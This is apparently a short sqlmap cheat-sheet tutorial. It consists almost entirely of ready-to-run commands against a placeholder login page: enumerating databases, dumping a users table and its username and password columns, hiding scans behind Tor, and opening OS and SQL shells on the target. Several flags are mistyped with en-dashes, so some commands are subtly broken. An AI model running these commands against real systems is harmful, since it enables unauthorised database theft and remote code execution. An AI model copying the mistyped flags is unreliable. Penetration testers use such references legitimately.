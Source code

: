 Cheat Sheet
Easy Scanning option

```shell
sqlmap -u "http://testsite.com/login.php"
```
Scanning by using tor

```shell
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
```
Scanning by manually setting the return time

```shell
sqlmap -u "http://testsite.com/login.php" --time-sec 15
```
List all databases at the site

```shell
sqlmap -u "http://testsite.com/login.php" --dbs
```
List all tables in a specific database

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```
Dump the contents of a DB table

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```
List all columns in a table

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```
Dump only selected columns

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
```
Dump a table from a database when you have admin credentials

```shell
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
```
Get OS Shell
```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
```
Get SQL Shell
```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
```
The ultimate manual for sqlmap can also be found here

Conclusion
As always I hope you found this tutorial useful Please let em know if you want to see a comprehensive sqlmap tutorial.